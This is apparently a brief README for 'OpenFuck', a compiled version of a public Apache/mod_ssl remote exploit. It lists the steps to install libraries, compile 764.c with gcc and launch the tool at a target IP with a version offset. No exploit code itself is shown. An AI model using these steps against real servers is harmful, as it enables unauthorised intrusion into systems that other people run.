 # OpenFuck
This is a tool to exploit apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated.

Below you can take updated
1. Download 764.c
~~~

~~~
2. Install libssl-dev & libssl1.0dev
~~~
apt install libssl-dev
apt install libssl1.0 dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
